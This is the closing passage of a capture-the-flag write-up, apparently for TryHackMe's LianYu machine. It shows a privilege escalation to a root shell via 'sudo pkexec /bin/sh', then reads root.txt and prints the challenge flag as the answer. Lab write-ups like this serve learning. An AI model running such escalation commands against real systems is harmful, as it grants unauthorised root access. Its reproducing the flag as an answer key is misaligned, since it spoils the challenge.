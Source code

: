 ```
slade@LianYu:~$ sudo pkexec /bin/sh
# 
```

* We can now get the root flag.

```
# ls
root.txt
# cat root.txt  
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

### Answer

```
THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
```
